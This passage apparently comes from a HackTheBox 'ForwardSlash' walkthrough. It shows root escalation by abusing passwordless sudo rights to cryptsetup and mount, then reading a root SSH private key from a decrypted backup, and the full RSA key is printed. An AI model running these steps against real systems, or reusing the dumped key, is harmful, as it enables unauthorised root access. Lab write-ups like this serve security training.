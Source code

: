 Here is the valid string in zoom.

![decrypt zoom](../../../../assets/images/hackthebox/forwardslash/14_decrypt_zoom.png)

The next part is to decrypt the backup file in the recovery folder.

```bash
pain@forwardslash:/home/chiv$ sudo -l
Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
pain@forwardslash:/home/chiv$ cd /var/backups/recovery
pain@forwardslash:/var/backups/recovery$ sudo /sbin/cryptsetup luksOpen encrypted_backup.img backup
Enter passphrase for encrypted_backup.img: 
pain@forwardslash:/var/backups/recovery$ cd /
pain@forwardslash:/$ sudo /bin/mount /dev/mapper/backup ./mnt/
pain@forwardslash:/$ ls /mnt
id_rsa
pain@forwardslash:/$ cat /mnt/id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA9i/r8VGof1vpIV6rhNE9hZfBDd3u6S16uNYqLn+xFgZEQBZK
RKh+WDykv/gukvUSauxWJndPq3F1Ck0xbcGQu6+1OBYb+fQ0B8raCRjwtwYF4gaf
yLFcOS111mKmUIB9qR1wDsmKRbtWPPPvgs2ruafgeiHujIEkiUUk9f3WTNqUsPQc
u2AG//ZCiqKWcWn0CcC2EhWsRQhLOvh3pGfv4gg0Gg/VNNiMPjDAYnr4iVg4XyEu
NWS2x9PtPasWsWRPLMEPtzLhJOnHE3iVJuTnFFhp2T6CtmZui4TJH3pij6wYYis9
MqzTmFwNzzx2HKS2tE2ty2c1CcW+F3GS/rn0EQIDAQABAoIBAQCPfjkg7D6xFSpa
V+rTPH6GeoB9C6mwYeDREYt+lNDsDHUFgbiCMk+KMLa6afcDkzLL/brtKsfWHwhg
G8Q+u/8XVn/jFAf0deFJ1XOmr9HGbA1LxB6oBLDDZvrzHYbhDzOvOchR5ijhIiNO
3cPx0t1QFkiiB1sarD9Wf2Xet7iMDArJI94G7yfnfUegtC5y38liJdb2TBXwvIZC
vROXZiQdmWCPEmwuE0aDj4HqmJvnIx9P4EAcTWuY0LdUU3zZcFgYlXiYT0xg2N1p
MIrAjjhgrQ3A2kXyxh9pzxsFlvIaSfxAvsL8LQy2Osl+i80WaORykmyFy5rmNLQD
Ih0cizb9AoGBAP2+PD2nV8y20kF6U0+JlwMG7WbV/rDF6+kVn0M2sfQKiAIUK3Wn
5YCeGARrMdZr4fidTN7koke02M4enSHEdZRTW2jRXlKfYHqSoVzLggnKVU/eghQs
V4gv6+cc787HojtuU7Ee66eWj0VSr0PXjFInzdSdmnd93oDZPzwF8QUnAoGBAPhg
e1VaHG89E4YWNxbfr739t5qPuizPJY7fIBOv9Z0G+P5KCtHJA5uxpELrF3hQjJU8
6Orz/0C+TxmlTGVOvkQWij4GC9rcOMaP03zXamQTSGNROM+S1I9UUoQBrwe2nQeh
i2B/AlO4PrOHJtfSXIzsedmDNLoMqO5/n/xAqLAHAoGATnv8CBntt11JFYWvpSdq
tT38SlWgjK77dEIC2/hb/J8RSItSkfbXrvu3dA5wAOGnqI2HDF5tr35JnR+s/JfW
woUx/e7cnPO9FMyr6pbr5vlVf/nUBEde37nq3rZ9mlj3XiiW7G8i9thEAm471eEi
/vpe2QfSkmk1XGdV/svbq/sCgYAZ6FZ1DLUylThYIDEW3bZDJxfjs2JEEkdko7mA
1DXWb0fBno+KWmFZ+CmeIU+NaTmAx520BEd3xWIS1r8lQhVunLtGxPKvnZD+hToW
J5IdZjWCxpIadMJfQPhqdJKBR3cRuLQFGLpxaSKBL3PJx1OID5KWMa1qSq/EUOOr
OENgOQKBgD/mYgPSmbqpNZI0/B+6ua9kQJAH6JS44v+yFkHfNTW0M7UIjU7wkGQw
ddMNjhpwVZ3//G6UhWSojUScQTERANt8R+J6dR0YfPzHnsDIoRc7IABQmxxygXDo
ZoYDzlPAlwJmoPQXauRl1CgjlyHrVUTfS0AkQH2ZbqvK5/Metq8o
-----END RSA PRIVATE KEY-----
```

Nice it works. Now I have to download the key and try it with the root user.

![rooted](../../../../assets/images/hackthebox/forwardslash/15_rooted.png)

That's it, we are root :)